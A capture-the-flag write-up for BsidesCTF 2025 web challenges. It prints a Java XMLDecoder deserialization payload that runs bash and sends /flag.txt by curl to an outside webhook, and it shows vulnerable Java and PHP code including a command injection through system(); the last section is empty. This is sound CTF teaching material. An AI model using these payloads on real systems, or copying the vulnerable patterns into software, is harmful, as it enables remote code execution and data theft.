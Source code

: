 --------------------

### CTF-: BsidesCTF 2025

--------------------

![image](https://github.com/user-attachments/assets/5758bd60-e622-47de-9566-4e408ae2f6f7)

---------------------

### Challenges

----------------------

- Web-:
  - Dating
  - Detector
  - Detector-2

-----------------------

### Dating

-----------------------

![image](https://github.com/user-attachments/assets/a7046cc7-6849-408c-8aab-17124266f0a6)


-----------------------

- The challenge contains this java file `ProfileServlet.java`.

```java
package com.example.dragon;

import jakarta.servlet.ServletException;
import jakarta.servlet.annotation.WebServlet;
import jakarta.servlet.http.HttpServlet;
import jakarta.servlet.http.HttpServletRequest;
import jakarta.servlet.http.HttpServletResponse;

import java.beans.XMLDecoder;
import java.io.IOException;

@WebServlet("/ProfileServlet")
public class ProfileServlet extends HttpServlet {

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        response.setContentType("text/plain");

        try {
            XMLDecoder decoder = new XMLDecoder(request.getInputStream());
            Object dragonData = decoder.readObject();
            decoder.close();

            response.getWriter().write("Profile received for: " + dragonData.toString());
        } catch (Exception e) {
            response.getWriter().write("Error processing profile: " + e.getMessage());
        }
    }
}
```

- My eyes caught this  line `XMLDecoder decoder = new XMLDecoder(request.getInputStream());`.This class `XML Decoder` in java is vulnerable to `Insecure Deserialization` which can lead to RCE.A specially crafted XML payload can be used to invoke arbitrary java classes and methods to trigger RCE on the server.
- My Xml Payload-:

```xml
<java version="1.8.0" class="java.beans.XMLDecoder">
  <void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="3">
      <void index="0">
	<string>/bin/bash</string>
      </void>
      <void index="1">
	<string>-c</string>
      </void>
      <void index="2">
	      <string>cat /flag.txt | /usr/bin/curl https://www.postb.in/1745777549695-6946147335693 -d @-</string>
      </void>
    </array>
    <void method="start" id="process">
    </void>
  </void>
</java>
```

- The payload invokes class `java.lang.ProcessBuilder` which runs the `bash` binary with `-c` option to run a statement.Since I can't get an output, I interacted with a web hook with curl which serves the result of the executed command `cat /flag.txt` as `POST` data.

![image](https://github.com/user-attachments/assets/3cff1ab8-2554-4846-a2f9-c49bb10658f0)

- Web hook's result-:

![image](https://github.com/user-attachments/assets/5aa72db4-31a6-4dfb-93df-3a6c0470c2e5)

- Flag-:```CTF{helping-dragons-find-love-since-2025}```

---------------------------

### Detector

---------------------------

![image](https://github.com/user-attachments/assets/7ca325f0-6f4d-4ce1-aee3-8b6d826e2b80)

--------------------------

- It contains 2 source files `index.php` and `detect-dragon.php`.The vulnerable point is the `detect-dragon.php`.

```php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Dragon Detector</title>
    <link rel="stylesheet" href="style.css">
</head>
<body>
    <div class="container">
<?php
  $ip = $_REQUEST['ip'];

  echo "<h1>";
  system("bash /app/dragon-detector-ai $ip");
  echo "</h1>";

  echo '<br><a href="/">Check another IP</a>';
?>
    </div>
</body>
</html>
```

- The vulnerable parameter is `$_REQUEST['ip']` because it gets passed unfiltered to a shell statement in `system()` and it is not news that `system()` is vulnerable to command injection.I closed the statement with `;` to execute a new command.

```php
<?php
  $ip = $_REQUEST['ip'];

  echo "<h1>";
  system("bash /app/dragon-detector-ai $ip");
  echo "</h1>";

  echo '<br><a href="/">Check another IP</a>';
?>
```

- Exploiting it by executing command `id`-:

![image](https://github.com/user-attachments/assets/1fbcab48-a4dd-4191-bd81-42470f7b2451)

- Flag-:```CTF{tharr-be-draggggons}```

![image](https://github.com/user-attachments/assets/8e721bc5-4867-4bdb-8723-6ca822365c4f)


--------------------

### Detector-2

--------------------

![Uploading image.png…]()


--------------------
